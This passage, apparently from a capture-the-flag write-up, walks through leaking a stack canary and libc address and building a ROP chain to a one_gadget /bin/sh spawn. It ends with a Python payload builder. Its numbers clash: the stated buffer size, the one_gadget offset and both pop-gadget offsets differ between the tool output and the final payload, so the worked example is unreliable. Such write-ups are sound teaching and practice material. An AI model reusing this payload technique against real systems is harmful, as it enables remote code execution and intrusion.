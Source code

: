 ```
0x00007fffffffcba8│+0x00e8   0x1494119dae1a6e00
0x00007fffffffcbb0│+0x00f0   0x00007fffffffcd28
0x00007fffffffcbb8│+0x00f8   0x1494119dae1a6e00
```

`local_buf` is 240 bytes long so ends at `0x00007fffffffcbb0`. We notice the initial 51 bytes set to 0.

It also appears the last 8 bytes (offset -8) of `local_buf` are the canary and that the bytes at `0x00007fffffffcb38` (offset -121) is in the lib C.

We can check with
```
gef➤  x/i 0x00007ffff7e643e3
   0x7ffff7e643e3 <_IO_file_overflow+259>:      cmp    eax,0xffffffff
```

We can therefore leak the canary and libc addresses

## Creating a ROP chain

I tried using `pwntool`'s `execve` command to no avail so let's try `one_gadget`:

```
$ one_gadget libc.so.6
0x4c140 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x60 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, r12, NULL} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL
```

Using `pwntools`, we find a gadget for `rax`:

```
Gadget(0x3f197, ['pop rax', 'ret'], ['rax'], 0x8)
```

and one for `rbx`:

```
Gadget(0x319ad, ['pop rbx', 'ret'], ['rbx'], 0x8)
```

Here is our final paiload:

```python
def mk_payload(canary, libc_base):
    ONE_GADGET = 0xD509F + libc_base

    POP_RAX = 0x277E5 + libc_base
    POP_RBX = 0x29830 + libc_base

    return (
        b"A" * 248  # padding until the canary
        + canary
        + b"A" * 0x28   # padding until the return address
        + p64(POP_RAX)
        + p64(0)  # value of rax
        + p64(POP_RBX)
        + p64(0)  # value of rbx
        + p64(ONE_GADGET)
    )
```
